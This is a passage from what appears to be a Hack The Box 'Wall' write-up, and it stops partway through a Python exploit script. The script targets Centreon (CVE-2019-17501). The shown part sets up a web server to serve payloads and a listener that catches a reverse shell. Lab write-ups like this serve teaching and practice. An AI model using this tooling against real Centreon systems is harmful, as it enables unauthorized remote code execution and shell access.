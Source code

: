 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2008:20:06.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2008:18:12.png)

user_brute_force.py

```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Wall
# Reverse Shell Centreon
# CVE-2019-17501

import argparse
import requests
import sys
import os
import urllib.parse
import socket, telnetlib
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# First, we need to get the Centreon Token
def getCentToken(rhost):
    # Build the url
```